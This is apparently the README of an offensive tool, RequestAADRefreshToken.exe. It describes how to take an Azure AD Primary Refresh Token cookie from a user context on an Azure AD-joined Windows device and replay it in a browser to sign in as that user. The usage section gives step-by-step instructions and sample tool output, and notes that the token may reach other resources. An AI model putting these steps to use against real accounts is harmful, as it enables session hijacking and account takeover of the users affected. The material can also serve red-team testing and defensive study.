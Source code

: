 # Overview
Obtains a refresh token for a AzureAD-authenticated Windows user (i.e. the machine is joined to AzureAD and a user logs in with their AzureAD account). An attacker can then use the token to authenticate to AzureAD as that user.


# Usage
1. Obtain access to a user context on an Azure-AD-joined device. An easy way to tell is to run the command `dsregcmd.exe /status`. If this is abuseable, there will be a section titled "SSO State" and `AzureAdPrt` will be set to YES.
2. Run RequestAADRefreshToken.exe
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"

DONE
```
3. Clear your browser cookies and go to https://login.microsoftonline.com/login.srf
4. F12 (Chrome dev tools) -> Application -> Cookies
5. Delete all cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
6. Refresh the page (or visit https://login.microsoftonline.com/login.srf again) and you'll be logged it

Note: Exploitation here is only against the browser. It's likely, however, that this can be used with other applications to access different resource (e.g. the AzureAD cmdlets).


# References
* https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#how-are-app-tokens-and-browser-cookies-protected
* https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#browser-sso-using-prt
* https://docs.microsoft.com/en-us/azure/active-directory/devices/troubleshoot-device-dsregcmd#sso-state
